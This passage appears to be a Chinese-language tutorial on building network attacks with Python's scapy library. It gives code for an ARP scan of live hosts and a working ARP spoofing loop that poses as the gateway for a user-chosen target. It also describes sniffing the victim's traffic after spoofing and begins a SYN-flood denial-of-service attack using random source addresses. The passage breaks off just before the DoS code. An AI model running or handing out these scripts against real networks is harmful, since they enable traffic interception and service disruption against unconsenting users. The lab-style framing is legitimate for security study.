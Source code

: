 ```python
print("正在扫描")
# 构造一个ARP广播包，向整个网络的每台主机发起ARP广播
p = Ether(dst='ff:ff:ff:ff:ff:ff') / ARP(pdst=tnet)
# ans 表示收到的包的回复
ans, unans = srp(p, iface=wifi, timeout=2, verbose=0)
print("一共扫描到%d台主机：" % len(ans))
# 将需要的IP地址和Mac地址存放在result列表中
result = []
for s, r in ans:
    # 解析收到的包，提取出需要的IP地址和MAC地址
    result.append([r[ARP].psrc, r[ARP].hwsrc])
result.sort()
# 打印出活跃主机的IP地址和MAC地址
for ip, mac in result:
    print(ip, "------>", mac)

```

至此ARP扫描功能实现。

ARP欺骗功能的实现
-------------------------------------------------------------------------

在进行ARP欺骗时首先也需要获取网关地址（方法同上），接着利用scapy构造ARP欺骗包，告诉被攻击者我是网关其中target为目标主机p1 = Ether(dst=‘ff:ff:ff:ff:ff:ff’, src=‘10:63:c8:3a:39:93’) / ARP(pdst=target, psrc=gw)，包结构如图所示：  
![edc707b7eb734b03b3941c00ed59b8a5.png](https://s2.loli.net/2023/07/15/8zxFG1L7XWImZEA.png)
然后开始周期性的发包，不断地进行ARP欺骗，相关代码实现如下：

```python
target = input("请输入攻击目标：")
t = int(input("请输入攻击时间（S）:"))
# 构造一个欺骗数据包，告诉被攻击者，我是网关
p1 = Ether(dst='ff:ff:ff:ff:ff:ff', src='10:63:c8:3a:39:93') / ARP(pdst=target, psrc=gw)
# 周期性的发包,欺骗模式
print("攻击开始。。。")
for i in range(10 * int(t)):
    sendp(p1, verbose=0)
    time.sleep(0.1)
    print("send package",i+1)
print("攻击结束。。。")

```

### 嗅探攻击的实现

嗅探攻击的实现是基于ARP的欺骗下的，在进行ARP欺骗后，开启主机的路由交换功能，这样靶机的数据流量就会流经攻击机，打开wireshark进行抓包，实现了简单的嗅探攻击，这里的嗅探攻击也就是指主动嗅探。

DOS攻击的实现
-----------------------------------------------------------------------

DOS攻击是利用scapy构造SYN握手包，包括IP信息与TCP信息，packet = IP(src=‘192.168.43.166’, dst=‘192.168.43.203’)/TCP(sport=‘455’, dport=‘23’, flags=“S”)  
包结构如图所示：  
![f68c616e8a474018a6d2e04d21988945.png](https://s2.loli.net/2023/07/15/lAuHXV45gfI7kFp.png)
这里我们的源地址是固定的，为了达到更好的效果，我们采用不同的IP地址不断地向靶机发送握手包，这里先生成随机的IP地址存入列表，并采用多线程的方式实现DOS攻击，相关代码如下：
